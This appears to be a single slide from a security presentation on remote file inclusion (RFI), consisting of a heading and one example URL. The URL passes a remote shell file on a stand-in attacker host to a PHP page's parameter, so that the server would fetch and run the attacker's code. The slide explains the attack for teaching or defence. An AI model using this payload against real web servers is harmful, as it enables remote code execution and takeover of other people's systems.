

# RFI – Remote file inclusion
http://example.com/index.php?fn=http://myserver.com/shell.txt